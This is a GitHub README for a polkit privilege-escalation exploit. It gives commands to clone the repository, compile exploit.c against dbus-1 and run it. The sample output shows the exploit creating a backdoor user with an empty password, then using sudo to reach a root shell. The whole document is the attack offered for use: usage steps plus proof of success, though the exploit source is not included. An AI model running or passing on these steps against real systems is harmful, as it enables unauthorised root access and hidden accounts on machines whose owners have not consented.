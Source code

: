 # polkit-vuln
Exploiting boundaries

## Steps to run

Clone Repo
```
git clone https://github.com/umegbewe/polkit-vuln
```

Compile the exploit
```Shell
gcc -Wall exploit.c -o exploit $(pkg-config --libs --cflags dbus-1)
```

Run the exploit
```Shell
./exploit
```

Output
```Shell
┌──kali㉿kali)-[~]
└─$ ./exploit
[*] creating "pwned-1631954041" user ...
[!] user has been created!
[*] user: pwned-1631954041, uid: 1006
[*] setting an empty password for "pwned-1631954041" user..
[*] an empty password has been set for "pwned-1631954041" user!
[!] run: "sudo su root" as "pwned-1631954041" user to get root
┌──(pwned-1631954041㉿kali)-[/home/kali]
└─$ sudo su root

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

┌──(root💀kali)-[/home/kali]
└─# 

```




